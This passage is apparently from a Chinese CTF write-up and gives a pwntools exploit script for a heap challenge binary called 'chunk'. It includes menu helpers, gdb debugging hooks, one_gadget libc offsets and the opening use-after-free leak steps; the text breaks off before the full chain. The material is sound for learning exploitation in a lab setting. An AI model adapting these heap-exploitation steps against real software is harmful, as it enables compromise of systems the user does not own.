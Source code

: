 

完整的exp如下

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')
local = 1
elf = ELF('./chunk')
if local:
    p = process('./chunk')
    libc = elf.libc
else:
    p = remote('172.16.229.161',7001)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#onegadget64(libc.so.6)  0x45216  0x4526a  0xf02a4  0xf1147
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
def bk(addr):
    gdb.attach(p,"b *"+str(hex(addr)))
def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr)))

def add(idx,size):
    ru("Your choice: ")
    sl('1')
    ru("Give me a book ID: ")
    sl(str(idx))
    ru("how long: ")
    sl(str(size))
def show(idx):
    ru("Your choice: ")
    sl('2')
    ru("Which book do you want to show?")
    sl(str(idx))
def free(idx):
    ru("Your choice: ")
    sl('3')
    ru("Which one to throw?")
    sl(str(idx))
def edit(idx,size,py):
    ru("Your choice: ")
    sl('4')
    ru("Which book to write?")
    sl(str(idx))
    ru("how big?")
    sl(str(size))
    ru("Content: ")
    sd(py)


add(0,0x108)
add(1,0x108)
free(0)
show(0)
ru("Content: ")
```